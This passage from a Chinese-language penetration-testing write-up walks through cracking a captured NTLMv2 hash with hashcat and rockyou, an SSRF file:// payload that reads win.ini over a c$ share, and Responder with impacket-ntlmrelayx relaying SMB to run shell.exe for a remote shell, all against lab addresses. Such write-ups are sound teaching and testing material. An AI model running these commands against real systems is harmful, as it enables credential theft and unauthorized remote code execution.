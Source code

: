 ```plain
# 解压 rockyou.txt.gz
gzip -d /usr/share/wordlists/rockyou.txt.gz
# 爆破密码
sudo hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.0.123.txt /usr/share/wordlists/rockyou.txt
```

[![](assets/1701134864-466ddf3bbc44e6ffb96e11ae9aaa85d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143411-f9cdde0c-8cee-1.png)

成功爆破到administrator账户密码为123456，下面尝试利用Relay中继尝试升级SSRF漏洞为RCE漏洞。

判断被攻击IP能否读取到`win.ini`，如果可以，说明存在SSRF的漏洞主机与被攻击机器拥有相同的NTLM Hash，故可以考虑中继或者读取敏感文件内容，前提是`c$`共享存在，有些环境是不存在的。

```plain
file:////192.168.0.128/c$/windows/win.ini
```

然后，接着通过 ntlmrelayx 进行SMB中继反弹shell。

```plain
# 禁用 445 http，SSRF利用的话该步骤不需要做，
vim /usr/share/responder/Responder.conf 
sudo responder -I eth0 -v

# 使用ntlmrelayx进行中继
sudo impacket-ntlmrelayx  -t 192.168.0.128 -smb2support -e "shell.exe"
```

[![](assets/1701134864-1f414eed5ceb64cffe94dab4776d0d33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143420-ff604508-8cee-1.png)
